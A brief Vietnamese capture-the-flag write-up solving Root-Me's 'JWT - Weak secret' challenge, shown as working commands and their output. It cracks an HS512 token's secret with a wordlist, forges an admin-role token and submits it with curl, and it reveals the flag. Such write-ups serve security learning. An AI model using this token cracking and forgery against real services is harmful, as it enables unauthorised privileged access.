 # 22. JSON Web Token (JWT) - Weak secret
![image](./img/Screenshot%20from%202022-02-26%2014-40-44.png)

như message thì ta sẽ có dc token khi truy cập vào /token/ , và sẽ phỉa dùng token đấy để truy cập vào /admin/

![img](./img/Screenshot%20from%202022-02-26%2014-45-53.png)

lần này mình ko thể dùng cách chuyển alg về none dc nữa r, mà sẽ phỉa crack để có đc signature, trong chall này mình sẽ dùng tool ``crackjwt.py``

```
./crackjwt.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw" ~/SecLists/rockyou.txt                    ─╯
Cracking JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw
18741it [00:00, 39596.39it/s]
Found secret key: lol
```

bingo giờ này cái key này rồi chỉnh jwt phần payload sang admin là xong

```
curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiYWRtaW4ifQ.y9GHxQbH70x_S8F_VPAjra_S-nQ9MsRnuvwWFGoIyKXKk8xCcMpYljN190KcV1qV6qLFTNrvg4Gwyv29OCjAWA" -X POST http://challenge01.root-me.org/web-serveur/ch59/admin
{"result": "Congrats!! Here is your flag: PleaseUseAStrongSecretNextTime\n"}
```
